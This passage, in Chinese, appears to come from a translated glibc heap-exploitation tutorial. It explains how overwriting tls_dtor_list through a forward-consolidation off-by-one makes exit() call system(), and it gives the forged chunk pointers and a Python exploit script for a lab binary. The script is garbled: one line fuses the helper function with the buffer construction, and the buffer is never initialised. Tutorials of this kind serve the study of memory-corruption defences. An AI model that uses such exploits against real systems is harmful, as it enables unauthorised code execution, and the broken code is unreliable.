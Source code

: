 ## 0X04 覆盖tls_dtor_list
[tls_tor_list](https://github.com/sploitfun/lsploits/blob/master/glibc/stdlib/cxa_thread_atexit_impl.c#L32) 是一个线程本地变量，含有一个函数指针列表，在执行exit()时会被调用。 [__call_tls_dtors](https://github.com/sploitfun/lsploits/blob/master/glibc/stdlib/cxa_thread_atexit_impl.c#L81)()遍历tls_dtor_list并一个一个[调用](https://github.com/sploitfun/lsploits/blob/master/glibc/stdlib/cxa_thread_atexit_impl.c#L88)其中的函数！！ 所以如果我们能利用一个含有system和system_arg的堆地址覆盖tls_dtor_list，来替换[dtor_list](https://github.com/sploitfun/lsploits/blob/master/glibc/stdlib/cxa_thread_atexit_impl.c#L24)中的func和obj， system()就能被调用。    

![](../pictures/heapoffbyone2.png)  



现在攻击者通过以下方式覆盖即将要释放的大chunk中的malloc_chunk里面的域信息：  

* fd必须指回到已经被释放的chunk地址来绕过主环形双链表的hardening
* bk也必须指回到已经被释放的chunk地址来绕过主环形双链表的hardening
* fd_nextsize 必须指向 tls_dtor_list -0x14
* bk_nextsize 必须指向含有dtor_list元素的堆地址

让fd_nextsize变成可写的问题解决了。那是因为tls_dtor_list属于libc.so的可写段，并且通过反汇编_call_tls_dtors()，可以得到tls_dtor_list的地址是0xb7fe86d4  

由于bk_nextsize指向堆地址，让它变成可写的问题也解决了。  

利用所有这些信息，我们可以写个漏洞利用程序来攻击’consolidate_forward’了！！  

漏洞利用代码:  

``` python
#exp_try.py
#!/usr/bin/env python
import struct
from subprocess import call
fd = 0x0804b418
bk = 0x0804b418
fd_nextsize = 0xb7fe86c0
bk_nextsize = 0x804b430
system = 0x4e0a86e0
sh = 0x80482ce
#endianess convertion
def conv(num):
 return struct.pack("<I",num(fd)
buf += conv(bk)
buf += conv(fd_nextsize)
buf += conv(bk_nextsize)
buf += conv(system)
buf += conv(sh)
buf += "A" * 996
print "Calling vulnerable program"
call(["./consolidate_forward", buf])
```
执行上述漏洞利用代码，并不能给我们root shell。它只能提供运行在我们自己权限上的bash shell。  
